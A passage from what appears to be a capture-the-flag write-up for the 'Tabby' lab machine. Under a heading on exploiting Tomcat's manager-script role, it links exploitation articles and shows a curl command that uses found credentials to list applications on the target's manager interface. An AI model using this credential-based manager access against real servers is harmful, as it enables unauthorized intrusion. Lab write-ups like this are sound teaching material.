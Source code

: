 ![image-20240123063013703](./Tabby.assets/image-20240123063013703.png)

### Tomcat Exploit as manager-script 

References:

- [Exploiting Apache Tomcat manager-script role | by Cyb0rgS | Medium](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00)
- [Tomcat exploit variant : host-manager | Certilience](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [Multiple Ways to Exploit Tomcat Manager - Hacking Articles](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

List all applications:

```console
$ curl -v -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
*   Trying 10.10.10.194:8080...
* Connected to 10.10.10.194 (10.10.10.194) port 8080
* Server auth using Basic with user 'tomcat'
> GET /manager/text/list HTTP/1.1
> Host: 10.10.10.194:8080
> Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==
> User-Agent: curl/8.4.0
> Accept: */*
>
< HTTP/1.1 200
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Mon, 22 Jan 2024 14:54:05 GMT
<
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
* Connection #0 to host 10.10.10.194 left intact
```
